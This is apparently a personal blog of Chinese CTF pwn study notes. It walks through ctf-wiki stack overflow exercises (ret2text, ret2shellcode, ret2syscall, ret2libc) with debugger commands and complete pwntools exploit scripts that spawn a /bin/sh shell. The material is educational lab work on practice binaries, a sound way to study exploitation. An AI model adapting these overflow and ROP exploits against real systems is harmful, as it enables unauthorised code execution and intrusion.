esp 1 2 3 #总记不住，但又常需要看，所以放到这里 push #先减esp，再压入 pop #先取数据再增esp
pwndbg调试指令记录 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 pwndbg> b main pwndbg> r pwndbg> ni pwndbg> si pwndbg> p pwndbg> vmmap pwndbg> cyclic 200 pwndbg> cyclic -l <数据> pwndbg> b *<地址> pwndbg> x/130wx <地址> pwndbg> i b pwndbg> c pwndbg> d pwndbg> disass pwndbg> l pwndbg> fi pwndbg> j pwndbg> q pwndbg> u pwndbg> set $eip = 0x8048300 pwndbg> p $eip pwndbg> x/i $eip
exp编写记录 宝藏博客：Pwntools | Lantern’s 小站
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 from pwn import * from LibcSearcher import * context(arch="i386" ,os="linux" ,log_level="debug" ) sh = process('本地文件' ) sh = remote("ip地址" ，端口号) sh.close() >>> e = ELF('/bin/cat' ) (e.address) 0x400000 >>> print hex(e.symbols['write' ]) 0x401680 >>> print hex(e.got['write' ]) 0x60b070 >>> print hex(e.plt['write' ]) 0x401680 >>> print hex(e.search('/bin/sh' ).next()) sh.send(data) sh.sendline(data) p.sendlineafter('字符串' ,data) sh.interactive() buf2_addr = 0x804a080 p.recvuntil('字符串' ) p.interactive() ru=lambda x:io.recvuntil(x) rl=lambda :io.recvline() sla=lambda x,y:io.sendlineafter(x,y)
objdump 1 2 3 4 $ objdump -dj .plt ret2libc2 $ objdump -h <可执行文件>
ROPgadget 1 2 $ ROPgadget --binary ret2libc2 --only "pop|ret"
———————————————————————-分界线———————————————————————————————————–
ctf-wiki-pwn 栈溢出 基本ROP ret2text 知识点：pwn相关的一些小技巧，偏移寻找、cyclic
注：个人笔记，重在个人对知识点的复习。
解题思路：存在 system(“/bin/sh”); 利用溢出修改ret指令处的地址控制程序跳转过去
原文链接：ctf-wiki-ret2text
点击下载：ret2text
1 2 3 4 5 6 7 8 9 $ file <文件名> $ checksec <文件名> $ gdb <文件名> ida中 tab、空格、shift +f12、Imports栏框 gdb中 b *<地址>、ni、x/136wx <esp指向的栈地址>、info registers查看寄存器值 python中 from pwn import * 、cyclic()、cyclic_find() $ x/136wx 0xffffd0d0
1 2 3 4 5 6 7 1、$ file ret2text 2、$ checksc ret2text 3、打开32位ida查询主函数，发现gets()函数(存在栈溢出) 4、在secure函数中查找到 system("/bin/sh" ); 字样，得到其位置0x0804863A 5、gdb调试查找偏移值，计算得偏移值112 6、编写解题脚本
4、函数窗口中点击secure函数，tab键（+空格键）得到如下界面。

5、偏移值计算

单走ni到达gets()函数，如下：

新建命令行，打开python，导入pwntools中的所有模块，cyclic()生成200个较有规律的随机字符并输入到上图中的程序中，如下：


由上图的值ebp指向的是栈的0xffffd158位置，我们利用$ x/136wx 0xffffd0d0（0xffffd0d0是esp指向的栈位置，栈是从高地址向低地址生长的所以esp在ebp的下方，这句指令的意思是从0xffffd0d0开始向高地址按每个数据4字节打印136个数据）打印栈上信息，如下：

上图中的0x62616163就是我们ebp指向的栈上存储的信息，翻译成字符就是baac，但由于内存小端序存值的原因，我们需倒序，因此要查找的字符为caab，我们回到python中查询caab字符串的位置，如下：

因此从我们输入的第一个字符到ebp的初始位置相距108个字符，而我们的ret指令在ebp的上一个位置（为什么ebp的上一个位置为ret指令？自学下汇编，自己写个简单的程序反编译分析一下你就知道了），而我们要把 system(“/bin/sh”); 的位置地址 0x0804863A 覆盖到ret指令调用的栈位置（ret指令执行时就从该栈位置出取处地址并跳转过去），所以还要+4个字节（ebp占用4字节）即112个字符。
最后我们构造的payload如下：
1 2 3 4 5 6 7 from pwn import * sh = process('./ret2text' ) target = 0x804863a sh.sendline('A' * 112 + p32(target)) sh.interactive()
注：之后的题解不会写得如此详细，因为是个人笔记，重在个人复习，所以一些特别基础的知识及操作之后不再写出。（倘若碰巧你也是个pwn的初学者，欢迎找我讨论）
ret2shellcode 知识点：shellcode植入 、asm(shellcraft.sh()) 、ljust()
解题思路：.bss段可执行，且存在将输入值copy到.bss段的函数，借助溢出执行shellcode
原文链接: ctf-wiki-ret2shellcode
点击下载: ret2shellcode
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 解题步骤： 1、ida： 2、gdb: 3、编写解题脚本
1 2 3 4 5 6 7 8 9 10 from pwn import * sh = process('./ret2shellcode' ) shellcode = asm(shellcraft.sh()) buf2_addr = 0x804a080 sh.sendline(shellcode.ljust(112, 'A' ) + p32(buf2_addr)) sh.interactive()
ret2syscall 知识点：系统调用、寻找 gadgets 的方法
原文链接: ctf-wiki-ret2syscall
点击下载: ret2syscall
1 2 3 4 5 6 7 8 9 10 11 12 13 14 系统调用： int 0x80进入内核模式（与之对应的是用户模式），进入内核模式后， 系统会根据相应寄存器的值判定要进行什么样的系统调用 例： 这里就对ctf-wiki上的execve("/bin/sh" ,NULL,NULL)例子进行更通俗的解释： 若在执行int 0x80前做到以下三点，就相当于执行了execve("/bin/sh" ,NULL,NULL)指令 eax的值变为0xb ebx的值为/bin/sh的地址 ecx和edx的值变为0 注：一般eax存储系统调用号，从以上的例子也可以看出 ebx、ecx、edx分别存储"/bin/sh" ,NULL,NULL三个参数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 解题步骤： 1、ida分析源码 2、gdb计算偏移，112 3、寻找控制 eax 的 gadgets： 指令：ROPgadget --binary rop --only 'pop|ret' | grep 'eax' 选取：0x080bb196 : pop eax ; ret 4、寻找控制其它寄存器的 gadgets 指令：ROPgadget --binary rop --only 'pop|ret' | grep 'ebx' 选取：0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret 5、查找 /bin/sh 字符串对应的地址 指令：ROPgadget --binary rop --string '/bin/sh' 选取：0x080be408 : /bin/sh 6、查找 int 0x80 的地址 指令：ROPgadget --binary rop --only 'int' 选取：0x08049421 : int 0x80 7、编写解题脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 from pwn import * sh = process('./rop' ) pop_eax_ret = 0x080bb196 pop_edx_ecx_ebx_ret = 0x0806eb90 int_0x80 = 0x08049421 binsh = 0x80be408 payload = flat( ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80]) sh.sendline(payload) sh.interactive()
注：flat()用于标准化数据，相当于将flat中的每个数据外套上p32()
注：栈上数据的跳转实现，有空模拟一下
ret2libc __不可错过的一篇博客：__https://blog.csdn.net/qq_40827990/article/details/86662079
例1：ret2libc1 知识点：system 函数与 /bin/sh 字符串分离，栈分析
原文链接：ctf-wiki-ret2libc
点击下载：ret2libc1
1 2 3 4 5 6 7 8 9 10 11 12 #解题脚本 #!/usr/bin/env python from pwn import * sh = process('./ret2libc1') binsh_addr = 0x8048720 system_plt = 0x08048460 payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr]) sh.sendline(payload) sh.interactive()
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr]) 主要是搞懂中间为什么要隔4个字符，执行完每步汇编后栈上的值的情况怎样 push pop 函数头： push ebp mov ebp,esp and esp,FFFFFFF0h 函数尾： leave：等价于 mov esp,ebp pop ebp retn: pop eip jmp eip 所以我们可以看到，一个函数尾，会先从栈上取一个值赋给esp再取一个值赋给eip， 结合下方图片记录，好好理一遍，应该就能搞懂中间为什么要隔4个字符了。
图片记录(.\PWN\ )：




例2：ret2libc2 知识点：got表、plt表
原文链接：ctf-wiki-ret2libc2
点击下载：ret2libc2
例3：ret2libc3 原文链接：ctf-wiki-ret2libc3
点击下载：ret2libc3
1 2 3 4 $ git clone https://github.com/lieanu/LibcSearcher.git $ cd LibcSearcher $ python setup.py develop
推荐题解：https://blog.csdn.net/qq_40827990/article/details/86662079
解题思路：
泄露 __libc_start_main 地址
获取 libc 版本
获取 system 地址与 /bin/sh 的地址
再次执行源程序
触发栈溢出执行 system(‘/bin/sh’)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 from pwn import * from LibcSearcher import LibcSearcher p = process('./ret2libc3' ) context.log_level = 'debug' start_addr = 0x80484d0 puts_plt_addr = 0x8048460 libc_start_main_got_addr = 0x804a024 p.recvuntil('Can you find it !?' ) p.sendline('q' *112 + p32(puts_plt_addr) + p32(start_addr) + p32(libc_start_main_got_addr)) libc_start_main_addr = u32(p.recv(4)) print "__libc_start_main_addr: " + hex(libc_start_main_addr)libc = LibcSearcher('__libc_start_main' , libc_start_main_addr) libcbase = libc_start_main_addr - libc.dump('__libc_start_main' ) system_addr = libcbase + libc.dump('system' ) binsh_addr = libcbase + libc.dump('str_bin_sh' ) + 0xb9 print "system_addr: " + hex(system_addr)print "binsh_addr: " + hex(binsh_addr)p.recvuntil('Can you find it !?' ) p.sendline('s' *112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)) p.interactive()
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 from pwn import *from LibcSearcher import LibcSearchersh = process('./ret2libc3' ) ret2libc3 = ELF('./ret2libc3' ) puts_plt = ret2libc3.plt['puts' ] libc_start_main_got = ret2libc3.got['__libc_start_main' ] main = ret2libc3.symbols['main' ] print "leak libc_start_main_got addr and return to main again" payload = flat(['A' * 112 , puts_plt, main, libc_start_main_got]) sh.sendlineafter('Can you find it !?' , payload) print "get the related addr" libc_start_main_addr = u32(sh.recv()[0 :4 ]) libc = LibcSearcher('__libc_start_main' , libc_start_main_addr) libcbase = libc_start_main_addr - libc.dump('__libc_start_main' ) system_addr = libcbase + libc.dump('system' ) binsh_addr = libcbase + libc.dump('str_bin_sh' ) print "get shell" payload = flat(['A' * 104 , system_addr, 0xdeadbeef , binsh_addr]) sh.sendline(payload) sh.interactive()
链接（查询libc版本）：https://libc.blukat.me/
———————————————————————-分界线———————————————————————————————————–
博客收藏 遇到的一些好的博客，当然是要收藏一下的嘛╭( ￣ ▽￣)╯，对了，有事没事多看看别人的友链，说不定能找到一两篇宝藏博客
链接(pwn新手推荐)：二进制安全 · 语雀 (yuque.com)
链接(大佬博客)：Clang裁缝店 (xuanxuanblingbling.github.io)
链接(大佬博客)：blingbling’s blog (blingblingxuanxuan.github.io)
链接(大佬博客)：nuoye大佬
链接(大佬博客)：http://uuzdaisuki.com/
链接(大佬博客)：Lantern’s 小站
链接(大佬博客)：Ex’s blog (eonew.cn)
链接(大佬博客)：Radish (radishes-nine.vercel.app)
链接(QAQ)：安全客 - 安全资讯平台 (anquanke.com)
链接(杂)：https://toutiao.io/subjects/6127
链接(杂)：https://toutiao.io/u/129594
文章收藏 链接：逆向基础笔记二十四 汇编 指针（五） 系列完结 - 『软件调试区』 - 吾爱破解 - LCG - LSG |安卓破解|病毒分析|www.52pojie.cn
函数 链接：C++ - 开发者手册 - 云+社区 - 腾讯云 (tencent.com)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 fgets(): C 库函数 char *fgets (char *str, int n, FILE *stream) 从指定的流 stream 读取一行，并把它存储在 str 所指向的字符串内。当读取 (n-1 ) 个字符时，或者读取到换行符时，或者到达文件末尾时，它会停止，具体视情况而定。 fflush () 用于清空文件缓冲区，如果文件是以写的方式打开 的，则把缓冲区内容写入文件。其原型为：int fflush (FILE* stream) memset () 函数可以说是初始化内存的“万能函数”，memset () 的作用是在一段内存块中填充某个给定的值。因为它只能填充一个值，所以该函数的初始化为原始初始化，无法将变量初始化为程序中需要的数据。用memset 初始化完后，后面程序中再向该内存空间中存放需要的数据。 void *memset (void *s, int c, unsigned long n) char str[10 ]; char *p = str; memset (str, 0 , sizeof (str)); setvbuf(stdin , 0LL , 2 , 0LL ); setvbuf(stdout , 0LL , 2 , 0LL ); setvbuf(stderr , 0LL , 2 , 0LL ); sscanf ()、sscanf_s() perror() 链接：https: malloc ()、calloc ()、realloc () alloca()
标记 反编译中不理解的代码 例1（C++） 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 # 得学C++ int vuln () const char *v0; char s[32 ]; char v3[4 ]; char v4[7 ]; char v5; char v6[7 ]; char v7[5 ]; printf ("Tell me something about yourself: " ); fgets(s, 32 , edata); std ::string ::operator =(&input, s); std ::allocator<char >::allocator(&v5); std ::string ::string (v4, "you" , &v5); std ::allocator<char >::allocator(v7); std ::string ::string (v6, "I" , v7); replace((std ::string *)v3); std ::string ::operator =(&input, v3, v6, v4); std ::string ::~string (v3); std ::string ::~string (v6); std ::allocator<char >::~allocator(v7); std ::string ::~string (v4); std ::allocator<char >::~allocator(&v5); v0 = (const char *)std ::string ::c_str((std ::string *)&input); strcpy (s, v0); return printf ("So, %s\n" , s); }

flag{_secret_} 5.20有人向你表白吗 (´•ω•`) ？
没想到你能走到这一步，确实挺出乎我的意料的 (￣▽￣)
为你准备了一份小礼物，凭借 flag{142857} 这串字符串即可向我领取 (*･ω･)
对了，学习固然重要，但也要记得早点休息 ^_^